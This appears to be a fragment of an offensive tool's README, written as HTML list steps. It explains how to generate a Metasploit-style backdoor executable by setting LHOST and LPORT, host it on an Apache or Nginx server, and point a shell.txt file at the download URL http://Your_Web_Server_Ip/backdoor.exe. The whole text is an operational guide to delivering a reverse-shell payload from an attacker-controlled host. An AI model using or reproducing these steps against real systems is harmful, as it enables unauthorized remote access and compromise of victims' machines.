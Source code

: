 <ol>
        <li>Change `CH_me` with LHOST and LPORT in `msf.bash` script:</li>
        <pre><code>nano msf.bash</code></pre>
        
<li>Run the provided `msf.bash` script:</li>
        <pre><code>./msf.bash</code></pre>

<li>Start your Apache or Nginx web server.</li>
        <p>Choose one of the following commands based on your web server:</p>
        <p>For Apache:</p>
        <pre><code>sudo systemctl start apache2</code></pre>
        <p>For Nginx:</p>
        <pre><code>sudo systemctl start nginx</code></pre>

<li>Upload the file created by `msf.bash` to your web server's root directory (usually `/var/www/html`). You can use tools like `mv` to move the file:</li>
        <pre><code>mv backdoor.exe /var/www/html/</code></pre>

 <li>Open `shell.txt` :</li>
        <pre><code>sudo nano shell.txt</code></pre>

 <li>Edit the `Your_Web_Server_Ip` in `shell.txt` with your Apache or Nginx server's IP address.</li>
        <p>Replace `Your_Web_Server_Ip` with the IP address of your server, e.g.,</p>
        <pre><code>http://Your_Web_Server_Ip/backdoor.exe</code></pre>
</ol>
